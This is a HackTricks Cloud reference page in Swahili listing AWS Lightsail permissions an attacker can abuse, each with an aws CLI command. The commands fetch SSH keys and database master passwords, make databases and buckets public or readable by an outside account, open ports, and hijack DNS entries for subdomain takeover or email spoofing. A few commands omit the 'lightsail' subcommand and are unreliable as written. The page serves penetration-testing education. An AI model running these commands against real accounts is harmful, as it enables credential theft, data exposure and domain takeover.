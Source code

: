 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Kwa maelezo zaidi kuhusu Lightsail angalia:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Ni muhimu kutambua kwamba Lightsail **haitumii majukumu ya IAM yanayomilikiwa na mtumiaji** bali kwa akaunti inayosimamiwa na AWS, hivyo huwezi kutumia huduma hii kwa privesc. Hata hivyo, **data nyeti** kama vile msimbo, funguo za API na taarifa za database zinaweza kupatikana katika huduma hii.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Ruhusa hii itakuruhusu kupata funguo za SSH za kufikia mifano:
```
aws lightsail download-default-key-pair
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya mifano.

### `lightsail:GetInstanceAccessDetails`

Ruhusa hii itakuruhusu kuunda funguo za SSH ili kufikia mifano:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya mifano.

### `lightsail:CreateBucketAccessKey`

Ruhusa hii itakuruhusu kupata ufunguo wa kufikia ndoo:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ruhusa hii itakuruhusu kupata akreditif za kufikia database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

### `lightsail:UpdateRelationalDatabase`

Ruhusa hii itakuruhusu kubadilisha nenosiri la kufikia hifadhidata: 

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Ikiwa database si ya umma, unaweza pia kuifanya kuwa ya umma na ruhusa hizi

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya database.

### `lightsail:OpenInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Madhara Yanayoweza Kutokea:** Upatikanaji wa bandari nyeti.

### `lightsail:PutInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao. Kumbuka kwamba wito utafungia bandari yoyote iliyofunguliwa ambayo haijatajwa ndani yake.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Madhara Yanayoweza Kutokea:** Upatikanaji wa bandari nyeti.

### `lightsail:SetResourceAccessForBucket`

Ruhusa hii inaruhusu kutoa upatikanaji wa instances kwa bucket bila hati zozote za ziada.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Upatikanaji mpya wa uwezekano kwa mifuko yenye taarifa nyeti.

### `lightsail:UpdateBucket`

Kwa ruhusa hii, mshambuliaji anaweza kutoa upatikanaji wa kusoma kwa akaunti yake ya AWS juu ya mifuko au hata kufanya mifuko hiyo kuwa ya umma kwa kila mtu:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Madhara Yanayoweza Kutokea:** Upatikanaji mpya wa uwezo wa mifuko yenye taarifa nyeti.

### `lightsail:UpdateContainerService`

Kwa ruhusa hii, mshambuliaji anaweza kutoa ufikiaji kwa ECR za kibinafsi kutoka kwa huduma za kontena.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti kutoka ECR ya faragha

### `lightsail:CreateDomainEntry`

Mshambuliaji mwenye ruhusa hii anaweza kuunda subdomain na kuielekeza kwenye anwani yake ya IP (uchukuaji wa subdomain), au kuunda rekodi ya SPF inayomruhusu kudanganya barua pepe kutoka kwenye domain, au hata kuweka domain kuu kwenye anwani yake ya IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Madhara Yanayoweza Kutokea:** Kuchukua udhibiti wa kikoa

### `lightsail:UpdateDomainEntry`

Mshambuliaji mwenye ruhusa hii anaweza kuunda subdomain na kuielekeza kwenye anwani yake ya IP (kuchukua subdomain), au kuunda rekodi ya SPF inayomruhusu kudanganya barua pepe kutoka kwa kikoa, au hata kuweka kikoa kikuu kwenye anwani yake ya IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Madhara Yanayoweza Kutokea:** Kuchukua udhibiti wa domain

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
